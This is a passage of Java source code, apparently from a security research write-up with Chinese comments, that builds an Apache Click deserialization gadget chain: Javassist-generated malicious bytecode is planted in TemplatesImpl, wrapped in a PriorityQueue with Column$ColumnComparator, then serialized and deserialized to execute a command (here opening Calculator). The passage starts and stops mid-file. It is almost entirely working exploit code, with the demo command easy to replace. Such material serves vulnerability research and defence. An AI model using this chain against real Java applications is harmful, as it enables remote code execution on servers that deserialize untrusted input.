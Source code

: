 ```java
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static byte[][] evilByteCodes() throws Exception {

        // 生成恶意的 bytecodes.
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool classPool = ClassPool.getDefault();
        classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass ctClass = classPool.makeClass("ClickExploit");
        ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        return new byte[][]{ctClassBytes};
    }

    public static void main(String[] args) throws Exception {

        // 实例化类并设置属性.
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", evilByteCodes());
        setFieldValue(templatesImpl, "_tfactory", new TransformerFactoryImpl());

        // 初始化 PriorityQueue.
        PriorityQueue<Object> queue = new PriorityQueue<>(2);
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        // 反射将 TemplatesImpl 放在 PriorityQueue 里.
        setFieldValue(queue, "queue", new Object[]{templatesImpl, templatesImpl});

        Class<?> clazz = Class.forName("org.apache.click.control.Column$ColumnComparator");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Column.class);
        constructor.setAccessible(true);

        Column column = new Column("outputProperties");
        // 为了避免反序列化比较时的空指针, 为 column 设置一个 Table 属性.
        column.setTable(new Table());
        Comparator comparator = (Comparator) constructor.newInstance(column);

        // 反射将 BeanComparator 写入 PriorityQueue 中.
        setFieldValue(queue, "comparator", comparator);
        Field field2 = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field2.setAccessible(true);
        field2.set(queue, comparator);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(queue);
            objectOutputStream.close();

            // 反序列化
            ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(byteArrayOutputStream.toByteArray()));
            objectInputStream.readObject();
```